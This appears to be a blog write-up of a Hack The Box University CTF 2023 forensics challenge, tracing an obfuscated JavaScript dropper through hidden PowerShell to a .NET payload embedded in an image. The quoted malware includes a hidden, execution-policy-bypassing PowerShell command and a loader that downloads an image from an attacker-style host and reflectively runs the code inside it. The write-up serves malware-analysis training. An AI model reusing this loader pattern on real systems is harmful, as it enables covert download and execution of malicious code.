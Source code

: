 ```yaml
---
layout: post
author: pl4int3xt
title: University CTF 2023:Brains and bytes
date: '2023-12-10 19:40:10'
cover: img/cover_images/47.jpg
description: "Hack the box university ctf 2023: Brains and bytes"
categories: [CTF]
---
```


## Forensics
### One Step Closer
> Tasked with defending the antidote's research, a diverse group of students united against a relentless cyber onslaught. As codes clashed and defenses were tested, their collective effort stood as humanity's beacon, inching closer to safeguarding the research for the cure with every thwarted attack. A stealthy attack might have penetrated their defenses. Along with the Hackster's University students, analyze the provided file so you can detect this attack in the future. 

We are provided with vaccine.js file which is somehow obfuscated, so after analysing the file we come across a url `http://infected.human.htb/d/BKtQR`

```javascript
lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.open("GET", "http://infected.human.htb/d/BKtQR", false);
```

Let's try to download the file using the docker ip and port 

```shell
http://94.237.57.242:50411/d/BkQR
```

After making the request we get a very huge obfuscated file which is hard to read. So i scrolled until the end and found this powershell code written in reverse. 

```powershell
StrReverse("'DxujWO$ dnammoc- eliforPoN- ssapyb ycilopnoitucexe- neddih elytswodniw- exe.llehsrewop")
```

The file was suspicious, hard to read and understand "obviously because it was written by the zombies" i decided to upload it to virus total and see the behaviour.


![img-description](/img/brains-and-bytes/1.png)

Process 4080 reveals the command executed by the file. it is base64 encoded and so we decode it
```powershell
4080 - "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -command '$Codigo = ''Jem9tYmllcBpem9tYmllcG0em9tYmllcYQBnem9tYmllcGUem9tYmllcVQByem9tYmllcGwem9tYmllcIe 
...
<SNIP>
...
mllc='';$OWjuxd = [system.Text.encoding]::Unicode.GetString([system.Convert]::Frombase64string($codigo.replace(''em9tYmllc'',''A'')));powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $OWjuxD'
```

From the code we can see that em9tYmllc is being replaced with A and so we replace all the instances of em9tYmllc with A to get a clean base64 encoded string "free from any zombie virus"

```powershell
GetString([system.Convert]::Frombase64string($codigo.replace(''em9tYmllc'',''A'')));
```

```shell
JABpAG0AYQBnAGUAVQByAGwAIAA9ACAAJwBoAHQAdABwADoALwAvAGkAbgBmAGUAYwB0AGUAZAAuAHoAbwBtAGIAaQBlAC4AaAB0AGIALwBXAEoAdgBlAFgANwAxAGEAZwBtAE8AUQA2AEcAdwBfADEANgA5A
...
<SNIP>
...
wBnAD0AJwAgACwAIAAnAGQAZgBkAGYAZAAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABhAGQAcwBhACcAIAAsACAAJwBkAGUAJwAgACwAIAAnAGMAdQAnACkAKQA=
``` 

We then decode the base64 string and discover another powershell script

```powershell
d5dff21b17ee-1f48-5c74-c934-d73c2a63=nekot&aidem=tla?txt.refsnart/o/moc.topsppa.f93c6-gnikcah/b/0v/moc.sipaelgoog.egarotsesaberif//:sptth$imageUrl = 'http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg';$webClient = New-Object System.Net.WebClient;$imageBytes = $webClient.DownloadData($imageUrl);$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);$startFlag = '<<BASE64_START>>';$endFlag = '<<BASE64_END>>';$startIndex = $imageText.IndexOf($startFlag);$endIndex = $imageText.IndexOf($endFlag);$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;$base64Length = $endIndex - $startIndex;$base64Command = $imageText.Substring($startIndex, $base64Length);$commandBytes = [System.Convert]::FromBase64String($base64Command);$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);$type = $loadedAssembly.GetType('Fiber.Home');$method = $type.GetMethod('VAI').Invoke($null, [object[]] ('ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=' , 'dfdfd' , 'dfdf' , 'dfdf' , 'dadsa' , 'de' , 'cu')
```

From the script we see that its trying to download an image from this `http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg` url and so we try to get it using our docker ip and port

![img-description](/img/brains-and-bytes/2.png)

Next we use exiftool and find some interesting stuff.

```shell
> exiftool WJveX71agmOQ6Gw_1698762642.jpg
ExifTool Version Number         : 12.70
File Name                       : WJveX71agmOQ6Gw_1698762642.jpg
Directory                       : .
File Size                       : 2.9 MB
File Modification Date/Time     : 2023:12:06 13:51:30+03:00
File Access Date/Time           : 2023:12:10 19:25:29+03:00
File Inode Change Date/Time     : 2023:12:10 19:25:24+03:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
```

2.9 MB i knew something must be hidden in the file so i tried to change the image extension to .png and used zsteg 

```shell
> zsteg img.png
extradata:0         .. text: "<<BASE64_START>>TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABQRQAA
...
<SNIP>
...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEhUQnswbjNfU3QzcF9jbDBzM3JfdDBfdGgzX2N1cjN9Cg==<<BASE64_END>>\n\n"
```

This was a very large base64 string. I took the string to cyber chef for a nice "zombie recipe"

![img-description](/img/brains-and-bytes/3.png)

We can see `MZ` meaning it is a windows executable file.So i decided to just continue scrolling and boom there's the cure to the zombie virus.

![img-description](/img/brains-and-bytes/4.png)

These zombies really used their BRAINS to BYTE the system.

![yay](/img/brains-and-bytes/joke.gif)

![img-description](/img/cert/HTB2023.png)